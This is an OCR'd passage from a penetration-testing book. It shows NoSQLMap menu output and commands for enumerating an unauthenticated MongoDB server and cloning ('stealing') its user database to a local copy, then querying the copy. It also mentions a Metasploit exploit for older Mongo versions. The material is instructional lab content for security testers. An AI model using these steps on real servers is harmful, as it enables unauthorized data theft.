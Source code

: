 ○ x - to Exit
● 2-NoSQL DB Access Attacks
Once the attack starts, you should see the following:
● DB Access attacks (MongoDB)
● =================
● Checking to see if credentials are needed...
● Successful access with no credentials!
● MongoDB web management open at http://192.168.199.128:28017. No
authentication required!
● Start tests for REST Interface (y/n)? y
● REST interface not enabled.
● 1-Get Server Version and Platform
● 2-Enumerate Databases/Collections/Users
● 3-Check for GridFS
● 4-Clone a Database
● 5-Launch Metasploit Exploit for Mongo < 2.2.4
● 6-Return to Main Menu
● Select an attack: 1
● Server Info:
● MongoDB Version: 2.0.6
● Debugs enabled : False
● Platform: 32 bit
● Select an attack: 2
● List of databases:
● local
● admin
● users
● appUserData
● Select an attack: 4
● Select a database to steal: 5
● Does this database require credentials (y/n)? n
● Database cloned. Copy another (y/n)? n
So, what we effectively did was copy the victim’s Mongo database to our local Mongo instance. We
can now copy all the databases we have and look at them at a later time for sensitive information.
How do we look at this data? In our example, we stole the database appUserData and cloned it. In
our local copy of Mongo, we will see a new database populated called appUserDataf_stolen. To
view it:
● mongo
● show dbs
● use appUserData
● show collections
● db.users.find()
NoSQLMap - Cloning
If you spend some time looking at the power of NoSQLMap, you will also see that there are some
modules for exploitation. Within the tool, it also integrated a Metasploit exploit module for Mongo
systems below version 2.2.4.
Elastic Search (Kali Linux)
I will say this throughout the book: One of the most important things in becoming a penetration tester
is understanding a wide breadth of different technologies. Building a lab in your own environment
with all the different types of servers will help identify what you might run into in the real world. I
was on an engagement where the vulnerability scanners didn’t find any vulnerabilities for an Elastic
